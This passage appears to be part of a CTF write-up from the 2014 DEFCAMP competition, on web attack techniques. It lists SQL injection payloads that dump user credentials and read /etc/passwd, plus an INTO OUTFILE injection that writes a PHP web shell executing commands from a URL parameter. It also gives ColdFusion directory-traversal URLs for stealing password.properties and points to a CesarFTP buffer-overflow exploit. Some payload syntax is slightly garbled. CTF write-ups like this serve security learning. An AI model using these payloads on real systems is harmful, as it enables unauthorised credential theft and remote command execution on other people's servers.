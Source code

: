 In this CTF, these were  some of the  exploits that could be used:

* List everything  in a database, where **0x3a** is the hexadecimal symbol for **:**:
```sql
UNION ALL SELECT 1,concat(username,0x3a,password,0x3a,email),3 FROM cms.users--
```

* See the password file content:
```sql
UNION ALL SELECT 1,LOAD_FILE("/etc/passwd"),3--
```

* Write files and create a PHP shell into **URL/shell.php**, we can use a parameter **x** to takes a parameter to be executed (based on [this]):

```
UNION ALL SELECT 1 "<?php header("Content-Type: text/plain;charset=utf-8"); echo system($-GET["x"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php"--
```

Notice the *trailing pair of hyphens* **--** which specifies to most database servers that the remainder of the statement is to be treated as a comment and not executed (it removes the trailing single-quote left over from the modified query). To learn more about how to mitigate SQLi, I recommend [OWASP's SQLi Prevention Cheat Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet
) and [this nice guide for SQLi mitigation](http://owtf.github.io/boilerplate-templates/SQLinjection.html) by OWSAP OWTF.



By the way, it's useful in general to know [HTML URL Encoding] to craft these URLs.

[this]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[HTML URL Encoding]: http://www.w3schools.com/tags/ref_urlencode.asp




### CesarFTP 0.99g and Buffer Overflow

[CesarFTP 0.99g](http://www.softpedia.com/get/Internet/Servers/FTP-Servers/Cesar-FTP.shtml) is an easy-to-use  FTP server. It is also known for having several vulnerabilities, including [buffer overflow](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2961).

For example, see this exploit for **Metasploit** from [exploit-db](http://www.exploit-db.com/exploits/16713/) (or [an older one here](http://www.exploit-db.com/exploits/1906/)).



#### File Disclosure of Password Hashes

This vulnerability provides a 30-second window in the Administration panel, which can e use to write a shellcode. The main idea is a [directory traversal] to the **password.proprieties** that can be used to login in the server.

Ingredients of this attack are:

* The target must have ColdFusion administrator available, which is by default mapped to ***CFIDE/administrator/enter.cfm***. If it gets [500], it should be switched to HTTPS.

* At the ColdFusion administrator, verify the version, and then use these injections:

```
(Version 6): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en

(Version 7): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en

(Version 8): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

(All versions): http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en
```


[CTF write-ups git repo]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/
[DEFCAMP CTF Quals]: http://dctf.defcamp.ro/challs
[Remote File Inclusion]: http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
[TimThumb]: https://code.google.com/p/timthumb/
[CSRF]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
[XSS]: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
[1337day]: http://1337day.com/exploit/3256
[several vulnerabilities]: http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2008-2961
[this exploit-db]: http://www.exploit-db.com/exploits/28128/
[CMS Mini]: http://www.mini-print.com/
[several vulnerabilities]: http://www.exploit-db.com/exploits/33030/
[remote code execution]: https://www.owasp.org/index.php/PHP_Top_5#P1:_Remote_Code_Execution
[can be seen here]: http://www.exploit-db.com/exploits/33070/
[exploit-db]: http://www.exploit-db.com/exploits/33990/
[1337day]: http://en.1337day.com/exploit/22391
[packet storm]: http://packetstormsecurity.com/files/127364/Gitlist-Unauthenticated-Remote-Command-Execution.html
[hatriot]: http://hatriot.github.io/blog/2014/06/29/gitlist-rce/
[command injection]: http://cwe.mitre.org/data/definitions/77.html
[allowing remote attackers to execute arbitrary commands via shell]: http://www.websecuritywatch.com/arbitrary-command-execution-in-gitlist/
[Gitlist]: http://gitlist.org/
[here]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[unoconv]: http://linux.die.net/man/1/unoconv
[LibreOffice]: http://www.libreoffice.org/
[soffice.bin]: http://www.processlibrary.com/en/directory/files/soffice/66728/
[Railio 4.2]: http://www.getrailo.org/
[ColdFusion]: http://en.wikipedia.org/wiki/Adobe_ColdFusion
[Adobe ColdFusion 11]: http://www.adobe.com/products/coldfusion-family.html
[jumpespjump]: http://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
[kaoticcreations]: http://kaoticcreations.blogspot.com/2012/11/hacking-cold-fusion-servers-part-i.html
[cyberguerilla]: https://www.cyberguerrilla.org/blog/?p=18275
[vulnerable to a variety of attacks]: http://www.intelligentexploit.com/view-details.html?id=12750
[gnucitizen]: http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
[hexale]: http://hexale.blogspot.com/2008/07/how-to-decrypt-coldfusion-datasource.html
[infointox]: http://www.infointox.net/?p=59
[directory traversal]: https://www.owasp.org/index.php/Path_Traversal
[500]: http://en.wikipedia.org/wiki/List_of_HTTP_status_codes
[blackhatlib]: http://www.blackhatlibrary.net/Coldfusion_hacking
[paranoia.jar]: https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/
[Burp]: http://portswigger.net/burp/
[Tamper Data]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[hash-killer]: http://hash-killer.com/
[md5this]: http://www.md5this.com/
[tcpdump]: http://linux.die.net/man/8/tcpdump
[ExifTool]: http://www.sno.phy.queensu.ca/~phil/exiftool/index.html
[Exif]: http://en.wikipedia.org/wiki/Exchangeable_image_file_format
[writeups]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/misc-100
[xxd]: http://linuxcommand.org/man_pages/xxd1.html
[Natas post]: http://singularity.miavonsteinkirch.com/exploiting-the-web-in-20-lessons-natas.html